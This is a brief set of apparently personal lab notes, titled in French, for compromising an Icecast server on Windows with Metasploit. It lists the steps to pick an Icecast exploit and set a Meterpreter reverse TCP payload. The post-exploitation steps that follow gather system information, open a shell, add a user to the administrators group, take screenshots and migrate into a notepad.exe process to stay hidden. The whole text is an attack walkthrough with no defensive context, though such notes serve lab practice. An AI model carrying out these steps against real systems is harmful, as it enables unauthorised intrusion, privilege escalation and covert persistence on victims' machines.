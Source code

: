
## run icecast en admin sur le windows


	smfconsole  
	search icecast  
	use exploit/xx 
	set payload windows/meterpreter/reverse_tcp  
	set rhost  xx
	set lhost  xx
	
	sysinfo  
	getuid  
	ps  
	
	shell
	#add user
	#add user on admin group 
	net localgroup administrators
	
	screenshot -p /tmp/screen/jpg
	
	getpid
	ps -S notepad.exe
	migrate <id>
	get pid
